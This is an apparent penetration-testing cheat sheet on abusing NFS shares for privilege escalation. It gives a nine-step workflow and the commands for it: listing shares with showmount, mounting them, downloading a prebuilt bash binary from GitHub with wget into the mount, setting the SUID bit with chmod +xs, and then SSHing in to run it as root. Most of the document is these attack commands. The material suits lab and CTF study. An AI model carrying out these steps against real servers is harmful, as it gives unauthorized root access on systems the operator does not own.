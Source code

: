 # NFS
NFS stands for "Network File System" and allows a system to share directories and files with others over a network. By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

## Workflow
1. Port scan with nmap
2. Enumerate accessible shares
3. Create a mount point
4. Mount the NFS share to the mount point
5. [Download](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash) or make a bash executable (The file must be owned by root)
6. Add the SUID bit permission to the bash executable
7. Locate the file into the mount point
8. SSH into the remote host (if SSH private key is found in the share)
9. Run the executable on the remote host

## NFS-Common
NFS-Common includes programs such as: lockd, statd, showmount, nfsstat, gssd, idmapd and mount.nfs.

### Listing NFS Shares
showmount -e [IP]  

### Create a mount point
mkdir [MOUNT POINT]

### Mounting NFS shares
sudo mount -t nfs [IP]:[SHARE] [MOUNT POINT] -nolock

- -t : Type of device to mount
- IP : The IP Address of the NFS server
- SHARE	: The name of a share in the remote host
- LOCAL DIR: The local directory to mount a share to
- -nolock	: Specifies not to use NLM locking

### Download or make a bash executable
sudo wget https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash?raw=true -O [MOUNT POINT]/bash

### Add the SUID bit permission and execution permission
cd [MOUNT POINT] && sudo chmod +xs bash

### SSH into the remote host
ssh -i [PRIVATE KEY] [USERNAME]@[HOSTNAME]
